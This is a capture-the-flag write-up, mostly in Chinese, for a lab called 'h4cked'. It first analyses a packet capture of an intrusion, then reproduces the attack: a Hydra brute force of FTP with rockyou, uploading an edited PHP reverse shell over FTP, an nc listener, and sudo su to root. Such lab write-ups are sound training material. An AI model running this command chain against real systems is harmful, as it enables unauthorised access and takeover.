 h4cked
===

### environment
KALI Linux ip 10.10.136.98

TARGET 10.10.194.25
###  Oh no! We've been hacked!

- [x] The attacker is trying to log into a specific service. What service is this?

隨便往下滑，即可知道在FTP-Brute-Force

![image](https://user-images.githubusercontent.com/67756786/192454846-dfa19b47-a439-40c8-b43a-15a5387f84f8.png)

- [x] There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?

Hydra，這題直接直覺猜的，因為5碼還有基本上都是用這工具xD

- [x] The attacker is trying to log on with a specific username. What is the username?

往下滑及有答案

![image](https://user-images.githubusercontent.com/67756786/192454991-e758dc3e-c9c2-4161-87ad-dbf8c62e74d5.png)


- [x] What is the user's password?

找到成功登入封包 Follow -> TCP Stream

![image](https://user-images.githubusercontent.com/67756786/192455214-41820f92-0055-45f8-891b-e8d984ccf363.png)


- [x] What is the current FTP working directory after the attacker logged in?

往下找到有執行指令的地方 Follow -> TCP Stream

![image](https://user-images.githubusercontent.com/67756786/192455489-3d90e70e-3e58-44f6-b32e-16a0f5c9fd7e.png)


- [x] The attacker uploaded a backdoor. What is the backdoor's filename?

![image](https://user-images.githubusercontent.com/67756786/192455762-418c2554-184f-4f0f-9125-da82ecae9812.png)


- [x] The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

從 FTP-DATA中查看 Follow -> TCP Stream

![image](https://user-images.githubusercontent.com/67756786/192456134-b9f23bc7-e0e4-4eed-bfba-96796d5762ec.png)

- [x] Which command did the attacker manually execute after getting a reverse shell?

從GET SHELL.PHP下面幾個封包點選Follow -> TCP Stram

![image](https://user-images.githubusercontent.com/67756786/192456374-3222f767-6286-4faa-9522-c4f266feb317.png)


- [x] What is the computer's hostname?

![image](https://user-images.githubusercontent.com/67756786/192456516-3fa97b38-360b-4fdf-ad5b-5a9d3547e040.png)


- [x] Which command did the attacker execute to spawn a new TTY shell?

基本上進入後都先執行這個，不然原本的很難用

![image](https://user-images.githubusercontent.com/67756786/192456563-e12ae8ec-80a0-44b9-b3f6-091fd8b2f8be.png)


- [x] Which command was executed to gain a root shell?

確認自己有root權限後直接root

![image](https://user-images.githubusercontent.com/67756786/192456723-2abbabce-d16a-4e0d-9733-255c3801ccf0.png)


- [x] The attacker downloaded something from GitHub. What is the name of the GitHub project?

![image](https://user-images.githubusercontent.com/67756786/192456812-945201b3-157a-4672-8f5a-f09cb326dc58.png)


- [x] The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

github上有介紹 rootkit

###  Oh no! We've been hacked!
- [x] Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.

原先知道user是jenny，用常見的word list 就用kali內建的rockyou(爆破出來密碼987654321)

```
hydra -l jenny -P /usr/wordlist/wordlist/rockyou.txt ftp://10.10.194.25
```

- [x] Change the necessary values inside the web shell and upload it to the webserver

登入ftp後，將shell中的ip port改為kali環境的

```
ftp -4 10.10.194.25
```

```
get shell.php
```

更改shell

![image](https://user-images.githubusercontent.com/67756786/192473552-a278e3e2-19dd-43a8-bdb1-58c4e954d515.png)

進入ftp後將shell寫上去

```
put shell2.php shell2.php
```
- [x] Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.

```
nc -lvnp 8888
```

- [x] Become root!

發現先使用su jenny發現jenny有權限即可使用sudo su變成root


- [x] Read the flag.txt file inside the Reptile directory

進入/root下找flag.txt
